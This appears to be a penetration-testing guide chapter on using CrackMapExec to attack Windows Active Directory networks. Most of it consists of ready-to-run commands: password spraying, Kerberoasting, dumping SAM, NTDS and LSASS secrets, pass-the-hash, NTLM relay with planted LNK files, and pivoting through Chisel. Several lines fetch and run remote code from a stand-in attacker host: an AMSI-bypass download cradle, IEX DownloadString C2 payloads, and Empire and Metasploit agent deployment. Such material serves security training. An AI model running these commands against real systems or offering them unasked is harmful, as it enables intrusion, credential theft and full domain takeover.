sudo apt install docker.io
git clone https://github.com/Porchetta-Industries/CrackMapExec -q
cd CrackMapExec
sudo docker build -t crackmapexec .
sudo docker run -it --entrypoint=/bin/bash --name crackmapexec -v ~/.cme:/root/.cme crackmapexec
# Restart container after exiting
sudo docker start crackmapexec
sudo docker exec -it crackmapexec bashWindows binaries: pre-compiled binaries are available from the GitHub releases page. On Windows, enable long paths to avoid errors:
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem" /v LongPathsEnabled /t REG_DWORD /d 1 /fCME stores logs and its database at ~/.cme.
6.1.2 Target Formats and Supported Protocols
CME accepts targets as a single IP, multiple IPs, CIDR notation, hostname, FQDN, or a file containing targets:
crackmapexec [protocol] [target-ip]
crackmapexec [protocol] [target-ip] [target-ip] [target-ip]
crackmapexec [protocol] [target-ip]/24
crackmapexec [protocol] internal.local
crackmapexec [protocol] targets.txt| Protocol | Default Port | Use Case |
|---|---|---|
| SMB | 445 | File shares, credential dumping, command execution, enumeration |
| WinRM | 5985/5986 | PowerShell remoting, command execution |
| MSSQL | 1433 | SQL queries, OS command execution via xp_cmdshell |
| LDAP | 389/636 | AD enumeration, Kerberoasting, ASREPRoasting |
| SSH | 22 | Command execution on Linux/Windows with SSH |
| RDP | 3389 | RDP screenshots, login validation |
| FTP | 21 | FTP-based operations |
# View protocol-specific help
crackmapexec ldap --help
# List available modules for a protocol
crackmapexec ldap -L
crackmapexec smb -L
# Export results (requires full path)
crackmapexec smb [target-ip] [options] --export $(pwd)/export.txtMethodology
-
cd CrackMapExec && poetry install && poetry shell -
crackmapexec smb [subnet] -
crackmapexec smb --help -
crackmapexec smb -L
6.2 Basic SMB Reconnaissance
Without any authentication, CME can extract rich information from SMB: IP address, hostname, Windows version, architecture (x86/x64), FQDN, domain membership, SMB signing status, and SMB version. If the domain parameter equals the name parameter, the target is not domain-joined.
# Scan a subnet - enumerate basic SMB information
crackmapexec smb 192.168.133.0/24Sample output reveals OS versions, signing status, and domain membership, letting you prioritize targets (Windows Servers are typically data-rich; hosts with signing disabled are relay targets).
6.2.1 SMB Signing Disabled Hosts
Hosts with SMB signing disabled are vulnerable to NTLM relay attacks. CME can generate a relay target list for use with ntlmrelayx.py:
crackmapexec smb 192.168.1.0/24 --gen-relay-list relaylist.txt
cat relaylist.txtWhy it matters: SMB signing ensures the integrity of SMB communications. When disabled, an attacker can intercept an NTLMv2 authentication and relay it to another host, impersonating the authenticating user without knowing their password.
Methodology
-
crackmapexec smb [subnet] -
crackmapexec smb [subnet] --gen-relay-list relaylist.txt
6.3 Exploiting NULL/Anonymous Sessions
A NULL session is an anonymous connection to the IPC$ named pipe on Windows. When a domain controller permits NULL sessions, attackers can enumerate domain users, groups, password policy, and shares without valid credentials. This misconfiguration is increasingly rare in modern environments but still appears, especially in legacy domains.
6.3.1 Enumerating the Password Policy
Key policy values to note: Minimum password length, Account Lockout Threshold (if "None" you can spray freely), Lockout Duration, Reset Account Lockout Counter, and Password Complexity flags. The complexity flag "Domain Password Complex: 1" means passwords must contain characters from three of five categories: uppercase, lowercase, digits, special characters, and Unicode alphabetic characters.
crackmapexec smb [target-ip] -u '' -p '' --pass-pol
# Export password policy to JSON
crackmapexec smb [target-ip] -u '' -p '' --pass-pol --export $(pwd)/passpol.txt
sed -i "s/'/\"/g" passpol.txt
cat passpol.txt | jq6.3.2 Enumerating Users
RID brute-forcing is an alternative when NULL authentication is available but query restrictions block standard user enumeration. It brute-forces Relative Identifiers (RIDs) to discover users, groups, and other AD objects:
# Enumerate domain users via SAMRPC
crackmapexec smb [target-ip] -u '' -p '' --users --export $(pwd)/users.txt
# Extract clean user list
sed -i "s/'/\"/g" users.txt
jq -r '.[]' users.txt > userslist.txt
# Default brutes RIDs up to 4000
crackmapexec smb [target-ip] -u '' -p '' --rid-brute
# Custom maximum RID
crackmapexec smb [target-ip] -u '' -p '' --rid-brute 100006.3.3 Enumerating Shares
Methodology
-
crackmapexec smb DC_IP -u '' -p '' --pass-pol --users --shares -
crackmapexec smb DC_IP -u guest -p '' --shares -
crackmapexec smb DC_IP -u '' -p '' --rid-brute -
sed -i "s/'/\"/g" users.txt && jq -r '.[]' users.txt > userslist.txt
6.4 Password Spraying
Password spraying tests a small number of commonly used passwords against a large list of accounts. CME supports spraying across all protocols with identical syntax. The key flags are -u (usernames or file), -p (passwords or file), --continue-on-success (test all accounts, not just until the first hit), and --no-bruteforce (pair user1:pass1, user2:pass2 instead of testing every combination).
6.4.1 SMB Password Spraying
# Single password against user list
crackmapexec smb [target-ip] -u users.txt -p [password]
# Multiple passwords, continue testing after first success
crackmapexec smb [target-ip] -u users.txt -p passwords.txt --continue-on-success
# Inline users and passwords
crackmapexec smb [target-ip] -u [user] [user] [user] [user] -p [password] [password]
# 1:1 user:password pairing (no brute-force)
crackmapexec smb [target-ip] -u userfound.txt -p passfound.txt --no-bruteforce --continue-on-success
# Test local accounts (not domain)
crackmapexec smb 192.168.133.157 -u Administrator -p Password@123 --local-auth6.4.2 Account Lockout Awareness
Always check the Account Lockout Threshold before spraying. If set (commonly 5), limit attempts per account and respect the Reset Account Lockout Counter window (typically 30 minutes). Query the Bad-Pwd-Count attribute to see how many failed attempts each account already has:
crackmapexec smb [target-ip] --users -u [user] -p [password]Account status colors: Green = valid credentials; Red = invalid; Magenta = valid password but authentication unsuccessful (account disabled, expired, must change password, logon hours restriction, etc.).
For STATUS_PASSWORD_MUST_CHANGE, change the password with Impacket:
smbpasswd -r [target-ip] -U [user]6.4.3 WinRM Password Spraying
WinRM only reports success if the account has WinRM access (local admin or Remote Management Users group member). (Pwn3d!) in the output means the account can execute commands.
crackmapexec winrm [target-ip] -u userfound.txt -p passfound.txt --no-bruteforce --continue-on-success6.4.4 LDAP Password Spraying
LDAP requires the FQDN (not IP) as the target. Add the DC's FQDN to /etc/hosts or configure DNS:
# Add to /etc/hosts
echo "[target-ip] [domain] [dc-fqdn]" | sudo tee -a /etc/hosts
crackmapexec ldap [dc-fqdn] -u [user] [user] -p [password]6.4.5 MSSQL Password Spraying
MSSQL supports three authentication types:
| Type | Description | CME Flag |
|---|---|---|
| Active Directory Account | Domain-integrated authentication | (default) |
| Local Windows Account | Local OS account | -d . |
| SQL Account | MSSQL-internal account | --local-auth |
# Domain account
crackmapexec mssql [target-ip] -u [user] -p [password]
# Local Windows account
crackmapexec mssql [target-ip] -u [user] -p [password] -d .
# SQL account
crackmapexec mssql [target-ip] -u [user] -p [password] --local-authMethodology
-
crackmapexec smb DC_IP -u '' -p '' --pass-pol -
crackmapexec smb DC_IP -u users.txt -p passwords.txt --continue-on-success -
crackmapexec winrm DC_IP -u userfound.txt -p passfound.txt --no-bruteforce --continue-on-success -
smbpasswd -r DC_IP -U username
6.5 Finding ASREPRoastable Accounts
ASREPRoasting targets accounts with Kerberos pre-authentication disabled (DONT_REQ_PREAUTH). Anyone can request an AS-REP for such accounts; the response contains data encrypted with the user's password hash, which can be cracked offline.
# Without credentials - brute-force with username list
crackmapexec ldap [dc-fqdn] -u users.txt -p '' --asreproast asreproast.out
# With valid credentials - find all vulnerable accounts
crackmapexec ldap [dc-fqdn] -u [user] -p [password] --asreproast asreproast.out
# Crack hashes with Hashcat (mode 18200)
hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txtMethodology
-
crackmapexec ldap [dc-fqdn] -u users.txt -p '' --asreproast asreproast.out -
crackmapexec ldap [dc-fqdn] -u [user] -p '[password]' --asreproast asreproast.out -
hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txt
6.6 Searching for Credentials in Group Policy Objects
Group Policy Preferences (GPP) historically stored credentials in XML files within SYSVOL. The encryption key was published by Microsoft in 2012 (MS14-025), making all GPP passwords trivially decryptable. GPP credentials are readable by any domain user.
# Search for GPP passwords (Groups.xml, Services.xml, etc.)
crackmapexec smb [target-ip] -u [user] -p [password] -M gpp_password
# Search for AutoLogon credentials (Registry.xml)
crackmapexec smb [target-ip] -u [user] -p [password] -M gpp_autologin
# Validate found credentials
crackmapexec smb [target-ip] -u [user] -p [password]Methodology
-
crackmapexec smb DC_IP -u user -p pass -M gpp_password -
crackmapexec smb DC_IP -u user -p pass -M gpp_autologin -
crackmapexec smb DC_IP -u found_user -p found_pass
6.7 Working with Modules
CME modules extend functionality per-protocol. View available modules with -L, view module options with --options, and set options with -o KEY=value.
# List modules for a protocol
crackmapexec ldap -L
# View module options
crackmapexec ldap -M user-desc --options
# Use a module
crackmapexec ldap [dc-fqdn] -u [user] -p [password] -M user-desc
# Use module with custom options
crackmapexec ldap [dc-fqdn] -u [user] -p [password] -M user-desc -o KEYWORDS=pwd,admin
# Query group membership (custom module)
crackmapexec ldap [dc-fqdn] -u [user] -p [password] -M groupmembership -o USER=[user]The user-desc module retrieves user descriptions from AD. Default keywords are: pass, creds, creden, key, secret, default. All descriptions are saved to a log file regardless of keyword matches. Descriptions are a common location where administrators store plaintext passwords.
Methodology
-
crackmapexec ldap dc01.fqdn -u user -p pass -M user-desc -
crackmapexec ldap dc01.fqdn -u user -p pass -M groupmembership -o USER=target
6.8 MSSQL Enumeration and Attacks
MSSQL servers are high-value targets containing sensitive data. CME enables SQL query execution, OS command execution (via xp_cmdshell), file transfer, and privilege escalation through MSSQL.
6.8.1 Executing SQL Queries
# List databases
crackmapexec mssql [target-ip] -u [user] -p [password] -q "SELECT name FROM master.dbo.sysdatabases"
# List tables in a database
crackmapexec mssql [target-ip] -u [user] -p [password] --local-auth -q "SELECT table_name from core_app.INFORMATION_SCHEMA.TABLES"
# Dump table contents
crackmapexec mssql [target-ip] -u [user] -p [password] --local-auth -q "SELECT * from [core_app].[dbo].tbl_users"6.8.2 OS Command Execution
If the user is a DBA (indicated by Pwn3d!), they can enable xp_cmdshell and execute OS commands:
# Check if user is DBA
crackmapexec mssql [target-ip] -u [user] -p [password] --local-auth
# Execute OS commands (requires DBA)
crackmapexec mssql [target-ip] -u [user] -p [password] --local-auth -x whoami6.8.3 File Transfer via MSSQL
# Upload a file
crackmapexec mssql [target-ip] -u [user] -p [password] --local-auth --put-file /etc/passwd C:/Users/Public/passwd
# Download a file
crackmapexec mssql [target-ip] -u [user] -p [password] --local-auth --get-file C:/Windows/System32/drivers/etc/hosts hosts6.8.4 MSSQL Privilege Escalation
The mssql_priv module enumerates and exploits two privilege escalation vectors: EXECUTE AS LOGIN (impersonation) and db_owner role.
# Enumerate privileges
crackmapexec mssql [target-ip] -u [user] -p [password] -M mssql_priv
# Escalate to sysadmin
crackmapexec mssql [target-ip] -u [user] -p [password] -M mssql_priv -o ACTION=privesc
# Execute commands as sysadmin
crackmapexec mssql [target-ip] -u [user] -p [password] -x whoami
# Roll back privileges
crackmapexec mssql [target-ip] -u [user] -p [password] -M mssql_priv -o ACTION=rollbackMethodology
-
crackmapexec mssql TARGET -u user -p pass -
crackmapexec mssql TARGET -u user -p pass -q "SELECT name FROM master.dbo.sysdatabases" -
crackmapexec mssql TARGET -u user -p pass -M mssql_priv -
crackmapexec mssql TARGET -u user -p pass -x whoami
6.9 Finding Kerberoastable Accounts
Kerberoasting targets accounts with a ServicePrincipalName (SPN). Any valid domain user can request a TGS ticket for any SPN. Part of the TGS is encrypted with the service account's NTLM hash, enabling offline password cracking.
# Request TGS tickets for all Kerberoastable accounts
crackmapexec ldap [dc-fqdn] -u [user] -p '[password]' --kerberoasting kerberoasting.out
# Crack hashes with Hashcat (mode 13100)
hashcat -m 13100 kerberoasting.out /usr/share/wordlists/rockyou.txt
# Validate cracked credentials
crackmapexec smb [target-ip] -u [user] -p [password]Methodology
-
crackmapexec ldap dc01.fqdn -u user -p pass --kerberoasting kerberoast.out -
hashcat -m 13100 kerberoast.out /usr/share/wordlists/rockyou.txt -
crackmapexec smb DC_IP -u cracked_user -p cracked_pass --shares
6.10 Spidering SMB Shares
CME provides powerful share enumeration and file searching capabilities to find sensitive data in SMB shares.
6.10.1 Share Access Enumeration
crackmapexec smb [target-ip] -u [user] -p [password] --shares6.10.2 The --spider Option
# Search for files containing "txt" in the IT share
crackmapexec smb [target-ip] -u [user] -p [password] --spider IT --pattern txt
# List all files and directories with regex
crackmapexec smb [target-ip] -u [user] -p [password] --spider IT --regex .
# Search file CONTENTS for a keyword
crackmapexec smb [target-ip] -u [user] -p [password] --spider IT --content --regex Encrypt
# Download a file from a share
crackmapexec smb [target-ip] -u [user] -p [password] --share IT --get-file Creds.txt Creds.txt
# Upload a file to a share
crackmapexec smb [target-ip] -u [user] -p [password] --share IT --put-file /etc/passwd passwd6.10.3 The spider_plus Module
The spider_plus module creates a JSON inventory of all files across all accessible shares:
# List all files (default: read-only mode)
crackmapexec smb [target-ip] -u [user] -p '[password]' -M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL
# Download all files from shares
crackmapexec smb [target-ip] -u [user] -p [password] -M spider_plus -o EXCLUDE_DIR=ADMIN$,IPC$,print$,NETLOGON,SYSVOL READ_ONLY=false
# View results
cat /tmp/cme_spider_plus/[target-ip].jsonMethodology
-
crackmapexec smb TARGET -u user -p pass --shares -
crackmapexec smb TARGET -u user -p pass -M spider_plus -o EXCLUDE_DIR=IPC$,NETLOGON,SYSVOL -
crackmapexec smb TARGET -u user -p pass --spider SHARE --content --regex password -
crackmapexec smb TARGET -u user -p pass --share SHARE --get-file path/file localfile
6.11 Proxychains with CME (Pivoting)
CME works seamlessly through SOCKS proxies, enabling attacks against internal networks via compromised hosts. The setup below uses Chisel to create a SOCKS tunnel and routing CME traffic through proxychains.
6.11.1 Setting Up the Tunnel
# 1. Run Chisel server on attack host (reverse mode)
./chisel server --reverse
# 2. Upload Chisel to compromised host via CME
crackmapexec smb [target-ip] -u [user] -p [password] --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe
# 3. Execute Chisel client on compromised host
crackmapexec smb [target-ip] -u [user] -p [password] -x "C:\Windows\Temp\chisel.exe client ATTACKER_IP:8080 R:socks"
# 4. Configure proxychains (/etc/proxychains.conf)
# Add: socks5 127.0.0.1 1080
# 5. Use CME through proxychains
proxychains4 -q crackmapexec smb [dc-ip] -u [user] -p [password] --shares6.11.2 Cleanup and Alternative Setup
# Kill Chisel on target
crackmapexec smb [target-ip] -u [user] -p [password] -X "Stop-Process -Name chisel -Force"
# Alternative: Windows as server, Linux as client
crackmapexec smb [target-ip] -u [user] -p [password] -x "C:\Windows\Temp\chisel.exe server --socks5"
sudo chisel client [target-ip]:8080 socksMethodology
-
crackmapexec smb TARGET -u user -p pass --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe -
crackmapexec smb TARGET -u user -p pass -x "C:\Windows\Temp\chisel.exe client ATTACKER:8080 R:socks" -
proxychains4 -q crackmapexec smb INTERNAL_IP -u user -p pass --shares
6.12 Stealing Hashes
Hash theft forces a user or computer to authenticate against an attacker-controlled server, capturing NTLMv2 hashes for cracking or relaying. CME provides two modules for planting trigger files in writable shares: slinky (LNK files) and drop-sc (searchConnector-ms files).
6.12.1 Slinky Module (LNK Files)
# Plant LNK files in all writable shares
proxychains4 -q crackmapexec smb [dc-ip] -u [user] -p [password] -M slinky -o SERVER=ATTACKER_IP NAME=important
# Start Responder to capture hashes
sudo responder -I tun0
# Cleanup LNK files when done
proxychains4 -q crackmapexec smb [dc-ip] -u [user] -p [password] -M slinky -o NAME=important CLEANUP=YES6.12.2 NTLM Relay
Instead of cracking captured hashes, relay them to hosts with SMB signing disabled:
# Generate relay target list
proxychains4 -q crackmapexec smb [subnet] --gen-relay-list relay.txt
# Run ntlmrelayx
sudo proxychains4 -q ntlmrelayx.py -tf relay.txt -smb2support --no-http
# Authenticate with dumped SAM hashes
proxychains4 -q crackmapexec smb [target-ip] -u administrator -H 30b3783ce2abf1af70f77d0660cf3453 --local-auth6.12.3 drop-sc Module (searchConnector-ms Files)
Methodology
-
crackmapexec smb TARGET -u user -p pass --shares -
crackmapexec smb SUBNET --gen-relay-list relay.txt -
crackmapexec smb TARGET -u user -p pass -M slinky -o SERVER=ATTACKER_IP NAME=important -
sudo responder -I tun0 -
crackmapexec smb TARGET -u user -p pass -M slinky -o NAME=important CLEANUP=YES
6.13 Mapping and Enumeration with SMB
With valid domain credentials, CME provides extensive enumeration options via SMB.
| Option | Description | Requires Admin |
|---|---|---|
--loggedon-users | Enumerate logged-on users | Typically yes |
--sessions | Enumerate active sessions | Typically yes |
--computers | Enumerate domain computers (LDAP query) | No |
--laps | Use LAPS password for authentication | LAPS read permission |
--rid-brute | Enumerate users via RID brute-force | No |
--disks | Enumerate disks on target | No |
--local-groups | Enumerate local groups | No (DC only) |
--groups | Enumerate domain groups | No |
--wmi | Execute WMI queries | Typically yes |
# Enumerate logged-on users and filter
crackmapexec smb [target-ip] -u [user] -p [password] --loggedon-users
crackmapexec smb [target-ip] -u [user] -p [password] --loggedon-users --loggedon-users-filter [user]
# Enumerate domain computers
crackmapexec smb [target-ip] -u [user] -p [password] --computers
# Enumerate disks
crackmapexec smb [target-ip] -u [user] -p [password] --disks
# Enumerate local and domain groups
crackmapexec smb [target-ip] -u [user] -p [password] --local-groups
crackmapexec smb [target-ip] -u [user] -p [password] --groups
crackmapexec smb [target-ip] -u [user] -p [password] --groups Administrators
# WMI queries (check for Sysmon)
crackmapexec smb [target-ip] -u [user] -p [password] --wmi "SELECT Caption,ProcessId FROM Win32_Process WHERE Caption LIKE '%sysmon%'"
# WMI with custom namespace
crackmapexec smb [target-ip] -u [user] -p [password] --wmi "SELECT * FROM MSPower_DeviceEnable" --wmi-namespace "root\WMI"Methodology
-
crackmapexec smb TARGETS -u user -p pass --loggedon-users -
crackmapexec smb DC_IP -u user -p pass --computers --groups -
crackmapexec smb TARGET -u user -p pass --wmi "SELECT Caption FROM Win32_Process WHERE Caption LIKE '%sysmon%'"
6.14 LDAP and RDP Enumeration
CME's LDAP protocol module queries Active Directory directly for objects like Group Managed Service Accounts (gMSAs), while the RDP module can capture login screen screenshots for passive reconnaissance.
6.14.1 LDAP Enumeration
# Enumerate users and groups
crackmapexec ldap [dc-fqdn] -u [user] -p [password] --users --groups
# Find accounts with PASSWD_NOTREQD (may have empty passwords)
crackmapexec ldap [dc-fqdn] -u [user] -p [password] --password-not-required
# Find Unconstrained Delegation targets
crackmapexec ldap [dc-fqdn] -u [user] -p [password] --trusted-for-delegation
# Enumerate adminCount=1 objects (privileged accounts)
crackmapexec ldap [dc-fqdn] -u [user] -p [password] --admin-count
# Get Domain SID
crackmapexec ldap [dc-fqdn] -u [user] -p [password] --get-sid6.14.2 Group Managed Service Accounts (gMSA)
gMSA passwords are auto-managed by AD but readable by principals listed in PrincipalsAllowedToRetrieveManagedPassword. CME can retrieve gMSA NTLM hashes:
# Enumerate gMSA accounts and who can read their passwords
crackmapexec winrm [dc-fqdn] -u [user] -p [password] -X "Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword"
# Retrieve gMSA password hash
crackmapexec ldap [dc-fqdn] -u [user] -p [password] --gmsa
# Use the gMSA hash (Pass-the-Hash)
crackmapexec smb [dc-fqdn] -u [svc-user]$ -H [ntlm-hash] --shares6.14.3 RDP Screenshots
Methodology
-
crackmapexec ldap dc01.fqdn -u user -p pass --password-not-required --trusted-for-delegation --admin-count -
crackmapexec ldap dc01.fqdn -u user -p pass --gmsa -
crackmapexec rdp TARGET -u user -p pass --screenshot
6.15 Command Execution
CME supports command execution via SMB, WinRM, and SSH protocols. Understanding UAC is critical: by default, only the built-in Administrator (RID 500) can execute remote commands. Other local admins are blocked unless LocalAccountTokenFilterPolicy = 1. Domain admins in the local Administrators group bypass this restriction.
6.15.1 SMB Command Execution
Four execution methods, tried in order: wmiexec (writes to disk), atexec (scheduled task, fileless), smbexec (service creation, fileless), mmcexec (MMC-based).
# cmd.exe command
crackmapexec smb [target-ip] -u [user] -p '[password]' -x whoami
# PowerShell command
crackmapexec smb [target-ip] -u [user] -p '[password]' -X '$PSVersionTable'
# Force specific execution method
crackmapexec smb [target-ip] -u [user] -p '[password]' --exec-method smbexec -x whoami
# Local admin authentication
crackmapexec smb [target-ip] -u Administrator -p 'AnotherC0mpl3xP4$$' --local-auth -x "net localgroup administrators"
# Enable LocalAccountTokenFilterPolicy for non-RID 500 admins
crackmapexec smb [target-ip] -u Administrator -p 'pass' --local-auth -x "reg add HKLM\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\POLICIES\SYSTEM /V LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"6.15.2 Custom AMSI Bypass
# Create AMSI bypass download cradle
echo "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/amsi-bypass.ps1');" > amsibypass.txt
# Host the bypass script
sudo python3 -m http.server 80
# Execute with custom AMSI bypass
crackmapexec smb [target-ip] -u [user] -p '[password]' -X '$PSVersionTable' --amsi-bypass amsibypass.txt6.15.3 WinRM Command Execution
WinRM does not require the user to be a local admin; membership in the Remote Management Users group or explicit PS Remoting permissions suffice.
# cmd.exe via WinRM
crackmapexec winrm [target-ip] -u [user] -p '[password]' -x whoami
# PowerShell via WinRM
crackmapexec winrm [target-ip] -u [user] -p '[password]' -X '$PSVersionTable'
# SSL-enabled WinRM
crackmapexec winrm TARGET -u user -p pass --ssl --ignore-ssl-cert -x whoami6.15.4 SSH Command Execution
Methodology
-
crackmapexec smb TARGET -u admin -p pass -x whoami -
crackmapexec smb TARGET -u admin -p pass --exec-method smbexec -x whoami -
crackmapexec smb TARGET -u admin -p pass -X 'command' --amsi-bypass bypass.txt
6.16 Finding Secrets and Using Them
CME supports multiple credential extraction methods: SAM database, NTDS.dit (Active Directory database), LSA Secrets/cached credentials, and LSASS memory dumps.
6.16.1 SAM Database Dumping
The SAM contains local user NTLM hashes. Local admin password reuse across workstations is extremely common.
crackmapexec smb [target-ip] -u [user] -p '[password]' --sam6.16.2 NTDS.dit Dumping (DCSync)
The NTDS.dit file contains all domain user password hashes. Requires Domain Admin or replication privileges (DS-Replication-Get-Changes-All):
# Dump all hashes from NTDS
crackmapexec smb [dc-ip] -u [user] -p '[password]' --ntds
# Dump only KRBTGT hash
crackmapexec smb [dc-ip] -u [user] -p [password] --ntds --user krbtgt
# Show only enabled accounts
crackmapexec smb [dc-ip] -u [user] -p '[password]' --ntds --enabled6.16.3 Pass-the-Hash
Pass-the-Hash works with SMB, WinRM, RDP, LDAP, and MSSQL protocols.
# Use NTLM hash instead of password
crackmapexec winrm [target-ip] -u administrator -H 30b3783ce2abf1af70f77d0660cf3453 --local-auth -x whoami6.16.4 LSA Secrets and Cached Credentials
LSA Secrets include: cached domain credentials (DCC2/MS Cache 2), machine account keys, DPAPI keys, and service account passwords. DCC2 hashes use Hashcat mode 2100 and cannot be used for Pass-the-Hash; they must be cracked:
crackmapexec smb [target-ip] -u [user] -p '[password]' --lsa
hashcat -m 2100 hashes.txt /usr/share/wordlists/rockyou.txt6.16.5 LSASS Memory Dumps
| Module | Method | Description |
|---|---|---|
lsassy | Remote read | Reads LSASS memory remotely via Impacket; parses with pypykatz |
procdump | Sysinternals ProcDump | Uploads procdump.exe, creates dump, parses locally |
handlekatz | Cloned handles | Uses cloned LSASS handles for obfuscated dump |
nanodump | Minidump | Searches for existing LSASS handles to avoid detection |
# Lsassy (most common)
crackmapexec smb [target-ip] -u [user] -p '[password]' -M lsassy
# Procdump
crackmapexec smb [target-ip] -u [user] -p '[password]' -M procdump
# Handlekatz
crackmapexec smb [target-ip] -u [user] -p '[password]' -M handlekatz
# Nanodump
crackmapexec smb [target-ip] -u [user] -p '[password]' -M nanodumpMethodology
-
crackmapexec smb TARGET -u admin -p pass --sam -
crackmapexec smb DC_IP -u da_user -p pass --ntds -
crackmapexec smb TARGET -u admin -p pass --lsa -
crackmapexec smb TARGET -u admin -p pass -M lsassy -
crackmapexec smb TARGET -u username -H ntlm_hash
6.17 Getting Sessions in a C2 Framework
CME integrates with C2 frameworks (Empire, Metasploit) to deploy agents across compromised hosts.
6.17.1 Empire Integration
# Configure ~/.cme/cme.conf [Empire] section
# api_host = 127.0.0.1, api_port = 1337, username/password matching Empire
# Set up listener in Empire
# (Empire) > uselistener http
# (Empire) > set Host http://ATTACKER_IP
# (Empire) > set Port 8001
# (Empire) > execute
# Deploy agent via CME
crackmapexec smb [target-ip] -u [user] -p '[password]' -M empire_exec -o LISTENER=http6.17.2 Metasploit Integration
# Configure web_delivery in Metasploit
# msf6 > use exploit/multi/script/web_delivery
# msf6 > set target 2 (PowerShell)
# msf6 > set payload windows/x64/meterpreter/reverse_tcp
# msf6 > set LHOST/LPORT/SRVHOST/SRVPORT
# msf6 > run -j
# Deploy via CME
crackmapexec smb [target-ip] -u [user] -p '[password]' -M web_delivery -o URL=http://ATTACKER_IP:8443/PAYLOAD_PATH6.17.3 Custom C2 Payloads
For any C2 framework, use PowerShell execution with --no-output to run payloads in the background:
crackmapexec smb TARGET -u user -p pass -X "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER/payload.ps1')" --no-outputMethodology
-
crackmapexec smb TARGETS -u admin -p pass -M empire_exec -o LISTENER=http
6.18 BloodHound Integration
CME can automatically mark users and computers as "Owned" in the BloodHound Neo4j database, enabling attack path analysis.
6.18.1 Configuration
Edit ~/.cme/cme.conf:
[BloodHound]
bh_enabled = True
bh_uri = 127.0.0.1
bh_port = 7687
bh_user = neo4j
bh_pass = YourPassword6.18.2 Collecting BloodHound Data
# Upload SharpHound
crackmapexec smb DC_IP -u [user] -p [password] --put-file SharpHound.exe SharpHound.exe
# Run SharpHound and list output
crackmapexec smb DC_IP -u [user] -p [password] -x "C:\SharpHound.exe -c All && dir c:\*_BloodHound.zip"
# Download results
crackmapexec smb DC_IP -u [user] -p [password] --get-file 20221109095424_BloodHound.zip bloodhound.zip6.18.3 Marking Nodes as Owned
Modules like procdump and lsassy also auto-mark discovered users as owned.
# Users are auto-marked on successful authentication
crackmapexec smb DC_IP -u [user] -p [password]
# Output: Node [email protected] successfully set as owned in BloodHound
# Mark computers as owned explicitly
crackmapexec smb DC_IP -u [user] -p [password] -M bh_owned -o PASS=YourNeo4jPasswordMethodology
-
crackmapexec smb DC_IP -u user -p pass -x "C:\SharpHound.exe -c All" -
crackmapexec smb DC_IP -u user -p pass -M bh_owned -o PASS=neo4jpass
6.19 Popular Modules
CME's modular architecture supports protocol-specific modules that extend enumeration and exploitation capabilities beyond built-in commands.
6.19.1 LDAP Protocol Modules
get-network: DNS record enumeration from AD-integrated DNS:
crackmapexec ldap [dc-fqdn] -u [user] -p [password] -M get-network -o ALL=truelaps: Retrieve LAPS passwords for managed computers:
crackmapexec ldap [dc-fqdn] -u [user] -p [password] -M laps
# Use COMPUTER option for specific targets
crackmapexec ldap [dc-fqdn] -u [user] -p [password] -M laps -o COMPUTER=MS01MAQ: Check MachineAccountQuota (needed for RBCD attacks):
crackmapexec ldap [dc-fqdn] -u [user] -p '[password]' -M maqdaclread: Read and export DACLs, find DCSync rights:
# Read all ACEs for a user
crackmapexec ldap [dc-fqdn] -u '' -p '' -M daclread -o TARGET=[user] ACTION=read
# Find principals with DCSync rights
crackmapexec ldap [dc-fqdn] -u [user] -p [password] -M daclread -o TARGET_DN="DC=[domain-short],DC=htb" ACTION=read RIGHTS=DCSync6.19.2 SMB Protocol Modules
get_netconnections / ioxidresolver: Discover additional network interfaces:
# WMI-based (includes IPv6)
crackmapexec smb TARGET -u user -p pass -M get_netconnections
# RPC-based (no IPv6)
crackmapexec smb TARGET -u user -p pass -M ioxidresolverkeepass_discover / keepass_trigger: Find and extract KeePass databases:
# Discover KeePass processes and config files
crackmapexec smb TARGET -u user -p pass -M keepass_discover
# Full extraction in one command
crackmapexec smb TARGET -u user -p pass -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=C:/path/to/KeePass.config.xmlrdp: Enable/disable RDP:
crackmapexec smb TARGET -u user -p pass -M rdp -o ACTION=enableMethodology
-
crackmapexec ldap dc01.fqdn -u user -p pass -M get-network -o ALL=true -
crackmapexec ldap dc01.fqdn -u user -p pass -M laps -
crackmapexec ldap dc01.fqdn -u user -p pass -M maq crackmapexec ldap dc01.fqdn -u user -p pass -M daclread -o TARGET_DN="DC=domain,DC=com" ACTION=read RIGHTS=DCSync -
crackmapexec smb TARGET -u user -p pass -M get_netconnections
6.20 Vulnerability Scan Modules
CME includes modules to check for critical AD vulnerabilities. Most are check-only (no exploitation).
| Module | CVE | Description | Prerequisites |
|---|---|---|---|
zerologon | CVE-2020-1472 | Netlogon privilege escalation | Network access to DC |
petitpotam | N/A | NTLM relay via EFS RPC | Network access to DC |
nopac | CVE-2021-42278/42287 | Standard user to DA via kerberos | Valid domain credentials |
dfscoerce | N/A | NTLM relay via MS-DFSNM | Valid domain credentials |
shadowcoerce | N/A | NTLM relay via VSS RPC | Valid domain credentials |
ms17-010 | MS17-010 | EternalBlue SMB RCE | Network access |
# ZeroLogon check
proxychains4 -q crackmapexec smb [dc-ip] -M zerologon
# PetitPotam check
proxychains4 -q crackmapexec smb [dc-ip] -M petitpotam
# noPAC check (requires credentials)
proxychains4 -q crackmapexec smb [dc-ip] -u user -p pass -M nopac
# DFSCoerce check
proxychains4 -q crackmapexec smb [dc-ip] -u user -p pass -M dfscoerce
# ShadowCoerce check (use --verbose for debug output)
proxychains4 -q crackmapexec --verbose smb [dc-ip] -u user -p pass -M shadowcoerce
# MS17-010 check
proxychains4 -q crackmapexec smb [dc-ip] -M ms17-0106.20.1 Exploiting ZeroLogon Example
Methodology
-
crackmapexec smb DC_IP -M zerologon crackmapexec smb DC_IP -M petitpotam crackmapexec smb DC_IP -u user -p pass -M nopac crackmapexec smb DC_IP -u user -p pass -M dfscoerce -
crackmapexec smb SUBNET -M ms17-010 -
